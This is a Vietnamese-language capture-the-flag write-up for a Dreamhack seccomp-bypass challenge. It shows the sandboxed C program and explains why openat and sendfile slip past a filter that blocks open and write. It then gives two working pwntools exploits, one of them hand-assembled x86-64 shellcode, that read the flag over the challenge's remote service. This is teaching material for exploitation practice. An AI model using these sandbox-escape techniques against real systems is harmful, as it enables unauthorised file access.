 # Seccomp bypass 1

## source

```c
// Name: bypass_syscall.c
// Compile: gcc -o bypass_syscall bypass_syscall.c -lseccomp

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/prctl.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void sandbox() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(open), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);

  seccomp_load(ctx);
}

int main(int argc, char *argv[]) {
  void *shellcode = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC,
                         MAP_SHARED | MAP_ANONYMOUS, -1, 0);
  void (*sc)();

  init();

  memset(shellcode, 0, 0x1000);

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sandbox();

  sc = (void *)shellcode;
  sc();
}
```

## Ý tưởng

- Lần trước chúng ta đã tìm hiểu seccomp với 2 chế độ, lần cũng tương tự là filter, chương trình cho phép, hoặc hạn chế một số syscall, trong bài này là nó sẽ hạn chế các syscall như `open, execve, execveat, write`
- dùng `seccomp tools` để kiểm tra chính xác hơn [link tải](https://github.com/david942j/seccomp-tools)
  ![image](https://user-images.githubusercontent.com/111769169/233795507-5115b118-3b0c-476b-b08c-5c57981fdac7.png)

- Ta thấy ta không thể bypass bằng cách `> 0x40000000` (hình như là các syscall 32 bit)
- Vậy không thể bypass bằng cách sử dụng syscall 32 bit thì ta sẽ bypass = cách sử dụng các syscall có chức năng tương tự như `open, write` trong đó có 2 syscall có chức năng tương tự là `openat và sendfile`
- openat để đọc file và sendlfile để hiển thị

## Khai thác

### tạo shell bằng pwntools

- do chương trình thực hiện shellcode
- Đường dẫn để đưa vào openat ta có thể đọc trong file Docker

```
ENV user bypass_syscall
ADD ./flag /home/$user/flag
```

```python
from pwn import *

#p = process('./bypass_syscall')
p = remote('host3.dreamhack.games',14198)

context.arch = 'x86_64'

pay = shellcraft.openat(0,'/home/bypass_syscall/flag')
pay += shellcraft.sendfile(1,'rax',0,100)

p.sendlineafter(': ',asm(pay))
p.interactive()
```

### tạo shell bằng tay

- Đầu tiên syscall `sys_openat` ta sẽ set rdi = 0 và rsi = '/home/bypass_syscall/flag'
- Tiếp đến `sendfile` cần rdi = 1, rsi = rax, rdx = 0, r10 = 0x64

```python
from pwn import *

# p = process('./bypass_syscall')
p = remote('host3.dreamhack.games', 9464)

context.arch = 'x86_64'
# gdb.attach(p, gdbscript= '''
#            b*main+154
#            c
#            ''')
shellcode = asm("""
                push 0x67
                mov rax, 0x616c662f6c6c6163
                push rax
                mov rax, 0x7379735f73736170
                push rax
                mov rax, 0x79622f656d6f682f
                push rax
                
                mov rsi, rsp
                xor rdi, rdi
                xor rdx, rdx
                mov rax, 0x101
                syscall
                
                mov rdi, 0x1
                mov r10, 0x64
                xor edx, edx
                mov rsi, rax
                mov rax, 0x28
                syscall
                
                """)

# shellcode = shellcraft.openat(0,'/home/bypass_syscall/flag')
# shellcode += shellcraft.sendfile(1,'rax',0,100)

p.sendlineafter(b': ', (shellcode))
p.interactive()
```

## Kết quả

